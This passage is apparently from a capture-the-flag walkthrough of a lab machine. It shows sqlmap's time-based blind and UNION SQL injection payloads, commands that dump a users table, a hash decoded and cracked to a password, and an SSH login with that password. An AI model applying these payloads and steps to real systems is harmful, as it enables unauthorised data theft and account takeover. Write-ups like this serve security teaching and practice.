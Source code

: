         Type: AND/OR time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (SELECT - comment)
        Payload: usrtosearch=plop" AND (SELECT * FROM (SELECT(SLEEP(5)))bhRc)#

        Type: UNION query
        Title: MySQL UNION query (NULL) - 3 columns
        Payload: usrtosearch=plop" UNION ALL SELECT CONCAT(0x71706b7871,0x5355686d62645446514a,0x7162716271),NULL,NULL#
    ---
    [15:25:23] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian
    web application technology: Apache 2.4.10
    back-end DBMS: MySQL 5.0.12
    [15:25:23] [INFO] fetched data logged to text files under '/home/maggick/.sqlmap/output/192.168.0.20'

    [*] shutting down at 15:25:23

`python2 sqlmap.py -u 'http://192.168.0.20/kzMb5nVYJw/420search.php?usrtosearch=plo' --current-db`
got us the name of the current databse: **seth**.

`python2 sqlmap.py -u 'http://192.168.0.20/kzMb5nVYJw/420search.php?usrtosearch=plo' -D seth --tables`
got us the list of the tables in the database **seth**. There is only one table : **users**. Let us drop it:

    :::text
    $python2 sqlmap.py -u 'http://192.168.0.20/kzMb5nVYJw/420search.php?usrtosearch=plop' -D seth --dump
    +----+---------------------------------------------+--------+------------+
    | id | pass                                        | user   | position   |
    +----+---------------------------------------------+--------+------------+
    | 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
    | 2  | --not allowed--                             | isis   | employee   |
    +----+---------------------------------------------+--------+------------+

It seems that ramses pass(word) is base64 encoded. After decoding, we got:
**c6d6bd7ebf806f43c76acc3681703b81** which looks like a md5 hash. A simple
google search give us the associated password: **omega**.

We have a username and a password. We have also seen a ssh port at the nmap
stage.

## Shell exploitation

### ssh

We try to connect to the non standard ssh port as ramses:

    :::text
    $ ssh 192.168.0.20 -p 777 -lramses
    ramses@192.168.0.20's password:
    omega
